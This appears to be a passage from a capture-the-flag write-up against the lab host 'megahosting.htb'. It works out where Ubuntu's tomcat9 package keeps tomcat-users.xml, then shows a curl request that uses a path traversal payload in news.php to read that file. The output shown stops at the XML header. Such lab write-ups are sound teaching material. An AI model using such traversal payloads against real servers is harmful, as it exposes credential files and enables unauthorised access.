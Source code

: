 But `/etc/tomcat{x}` may be for older versions only.

Let's check the files list for `tomcat9` for ubuntu:
[https://packages.ubuntu.com/focal/all/tomcat9/filelist](https://packages.ubuntu.com/focal/all/tomcat9/filelist)

```
/etc/cron.daily/tomcat9
/etc/rsyslog.d/tomcat9.conf
/etc/tomcat9/policy.d/01system.policy
/etc/tomcat9/policy.d/02debian.policy
/etc/tomcat9/policy.d/03catalina.policy
/etc/tomcat9/policy.d/04webapps.policy
/etc/tomcat9/policy.d/50local.policy
/lib/systemd/system/tomcat9.service
/usr/lib/sysusers.d/tomcat9.conf
/usr/lib/tmpfiles.d/tomcat9.conf
/usr/libexec/tomcat9/tomcat-start.sh
/usr/libexec/tomcat9/tomcat-update-policy.sh
/usr/share/doc/tomcat9/README.Debian
/usr/share/doc/tomcat9/changelog.Debian.gz
/usr/share/doc/tomcat9/copyright
/usr/share/tomcat9-root/default_root/META-INF/context.xml
/usr/share/tomcat9-root/default_root/index.html
/usr/share/tomcat9/default.template
/usr/share/tomcat9/etc/catalina.properties
/usr/share/tomcat9/etc/context.xml
/usr/share/tomcat9/etc/jaspic-providers.xml
/usr/share/tomcat9/etc/logging.properties
/usr/share/tomcat9/etc/server.xml
/usr/share/tomcat9/etc/tomcat-users.xml
/usr/share/tomcat9/etc/web.xml
/usr/share/tomcat9/logrotate.template
/var/lib/tomcat9/conf
/var/lib/tomcat9/logs
/var/lib/tomcat9/work
```

So it's seems ubuntu mapped the files differently than the apache defaults,
so it won't be `$TOMCAT_HOME/conf/tomcat-users.xml` but
`$TOMCAT_HOME/etc/tomcat-users.xml`.

```xml
$ curl 'http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml'
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
```
